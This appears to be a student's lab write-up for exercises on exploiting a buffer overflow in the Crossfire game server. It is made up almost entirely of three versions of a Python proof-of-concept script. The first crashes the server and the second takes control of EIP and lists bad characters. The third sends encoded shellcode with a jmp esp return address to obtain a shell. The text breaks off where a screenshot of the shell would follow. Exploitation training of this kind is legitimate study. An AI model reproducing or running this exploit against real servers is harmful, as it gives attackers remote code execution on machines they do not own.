

8.2.1 - Exercise
1. Create a PoC that crashes the Crossfire server.

Below is the code that crashed the game:
root@:~/bufferoverflow/crossfire> cat crossfire-poc.py
#!/usr/bin/python
import socket
host = "127.0.0.1"
crash="\x41" * 4379
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
root@:~/bufferoverflow/crossfire>
8.6.1 - Exercises
1. Update your POC so you have control of the EIP register.
2. Identify what characters you cannot use as part of your payload.
1.
root@:~/bufferoverflow/crossfire> cat crossfire-poc.py
#!/usr/bin/python
import socket
host = "127.0.0.1"
crash="\x41" * 4368 + "B"*4 + "\x83\xc0\x0c\xff\xe0" + "\x90\x90"
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
root@:~/bufferoverflow/crossfire>
2.
Characters that cannot be included in the payload are hex 00, 0A, 0D, and 20. These are the null byte, linefeed, carriage return, and space.
8.8.1 - Exercise
1. Update your proof of concept and obtain a shell from Crossfire.
1.
root@:~/bufferoverflow/crossfire> cat crossfire-poc.py
#!/usr/bin/python
import socket
host = "127.0.0.1"
#nasm > add eax,12
#00000000 83C00C add eax,byte +0xc
#nasm > jmp eax
#00000000 FFE0 jmp eax
#nasm > exit
shellcode = ("\xd9\xc5\xbd\xda\xfc\x7b\xdc\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x14\x83\xe8\xfc\x31\x68\x15\x03\x68\x15\x38\x09\x4a\x07\x4b"
"\x11\xfe\xf4\xe0\xbc\x03\x72\xe7\xf1\x62\x49\x67\xaa\x34\x03"
"\x0f\x4f\xc9\xb2\x93\x25\xd9\xe5\x7b\x33\x38\x6f\x1d\x1b\x76"
"\xf0\x68\xda\x8c\x42\x6e\x6d\xea\x69\xee\xce\x43\x17\x23\x50"
"\x30\x81\xd1\x6e\x6f\xff\xa5\xd8\xf6\x07\xcd\xf5\x27\x8b\x65"
"\x62\x17\x09\x1c\x1c\xee\x2e\x8e\xb3\x79\x51\x9e\x3f\xb7\x12")
# shellcode is 105 bytes long
# jmp esp return address: 08134597
ret = "\x97\x45\x13\x08"
crash = shellcode + "\x41"*(4368-105) + ret + "\x83\xc0\x0c\xff\xe0" + "\x90\x90"
#crash="\x41" * 4368 + ret + "\x83\xc0\x0c\xff\xe0" + "\x90\x90"
buffer = "\x11(setup sound " + crash + "\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."
s.connect((host, 13327))
data=s.recv(1024)
print data
s.send(buffer)
s.close()
print "[*]Payload Sent !"
root@:~/bufferoverflow/crossfire>
Shell obtained through crossfire exploit as shown below: